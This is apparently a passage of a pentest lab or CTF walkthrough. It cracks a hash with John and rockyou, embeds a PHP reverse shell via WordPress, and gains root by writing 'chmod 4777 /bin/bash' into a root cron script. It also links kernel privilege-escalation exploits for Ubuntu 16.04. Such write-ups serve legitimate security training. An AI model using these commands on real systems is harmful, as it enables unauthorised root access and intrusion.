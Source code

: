 
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

> john:incorrect

## WordPress



<figure><img src="../../.gitbook/assets/Pasted image 20231020184147.png" alt=""><figcaption></figcaption></figure>

{% embed url="https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php" %}

## PrivEsc

### cron

```txt
*/5 *   * * *   root  /usr/local/sbin/cron-logrotate.sh
```

```bash
echo 'chmod 4777 /bin/bash' > /usr/local/sbin/cron-logrotate.sh
bash -p
```

### kernel

Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter 'target\_offset' Out-of-Bounds Privilege Escalation

[4.4.0-21-generic](https://www.exploit-db.com/exploits/40049)

Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF\_PROG\_LOAD) Privilege Escalation

[https://www.exploit-db.com/exploits/39772](https://www.exploit-db.com/exploits/39772)

